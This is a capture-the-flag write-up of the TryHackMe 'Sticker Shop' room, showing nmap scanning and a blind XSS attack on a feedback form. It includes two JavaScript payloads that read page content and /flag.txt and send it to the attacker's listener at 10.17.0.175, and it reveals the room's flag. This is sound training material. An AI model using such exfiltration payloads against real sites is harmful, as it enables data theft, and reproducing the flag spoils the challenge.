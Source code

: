 ```yaml
---
title: The Sticker Shop
categories: [TryHackMe]
tags: [XSS,THM]
image: /assets/thumbnails/thestickershop.jpg
---
```


Easy room created by [toxicat0r](https://tryhackme.com/r/p/toxicat0r). This rooms focus on the XSS vulnerabilitty. So if you guys want to try it, you can access the room [here](https://tryhackme.com/r/room/thestickershop).

## Scanning

> Start your machine to obtain the `Machine IP address` and Fire up your Nmap tools like always. To scan for the open port and services of the `IP Address`. Using the command `nmap -sC -sV [IP Address]`, and wait for a couple of minute until the scanning finish.

![image](https://github.com/user-attachments/assets/e6ed8ccb-0fdc-4ac6-83b9-86fe36e52c18)

> From our scanning result, Here we got 2 open port which is `22` for `SSH` services and `8080` for `HTTP`. So there is a website serives assigned to the `IP Address`. Let visit the site by using this url `http://IP MACHINE:8080`.

![image](https://github.com/user-attachments/assets/440aea69-215d-4a39-937f-406c8fede2b5)

## Attack & Get The Flag

> There 2 pages in the website which is `Home` and `Feeback`. Nothing was intresting in the `Home` page. Let see the `Feebackk` page.

![image](https://github.com/user-attachments/assets/4c872f7a-3b13-40fc-bad0-baa4fa735ff7)

> This is the juicy part. As we all know the `Feedback` and `Comment` pages are quite famous with `XSS` Vulnerability. So here let test if the `XSS` is reflected by the machine or not.

### Setup And Payload. 

> To test if the machine reflected to our `XSS` or not. First, i setup local server using command `Python -m http.server 80`. So that when using the `XSS`, i will be able to see the response on our local server. 

![image](https://github.com/user-attachments/assets/f51a28b1-ef2c-4fff-9635-6fcde95a825b)

> For the test payload (Shout out to CHATGPT for the assist). For test payload, i use `GET` method to fetch the source code for the `Home` page. Here is the payload :

```
<script>
  fetch('/')
    .then(response => response.text())
    .then(data => {
      const encoded = btoa(data); // Base64 encode the response text
      new Image().src = 'http://10.17.0.175/' + encoded;
    })
    .catch(err => console.error(err));
</script>
```

> Basically the payload do is `fetch('/'): Requests the source code of the current page (index page)`, `btoa(data): Converts the page source to a Base64-encoded string` .
`new Image().src: Sends the encoded source as a GET parameter (source) to your server`  

![image](https://github.com/user-attachments/assets/da47666c-25ad-4652-bedb-7b2a29e16cb1)

> The machine respone was send to our local python server and we got endoded `Base64` strings from the response which if we decode it, we obtained the source code of the index page, just like our payload should do. This remark that our payload is working and the machine is facing `XSS` vulnerability. 

### Get The Flag. 

> In the rooms description, author mentioned that the flag was located at `/flag.txt`. So using same method as our test payload, to reflect the responses from the machine to our local python server. but Since we know the location of the flag. We just need to do a little bit changes from our test payload and our new payload is ready to go. Here is the new payload :

```
<script>
  fetch('/flag.txt')
    .then(response => response.text())
    .then(data => {
      new Image().src = 'http://10.17.0.175/?flag=' + encodeURIComponent(data);
    });
</script>
```
> Retrun back to our local python server, and as you can see. The machine reflected the text in the `\flag.txt` to our local server and we managed to get the flag.

![image](https://github.com/user-attachments/assets/52624075-942a-44dc-a7b3-5cc70b3e4cda)


## Flag 

> THM{B83789a69074f636f64a38879cfcabe8b62305ee6}



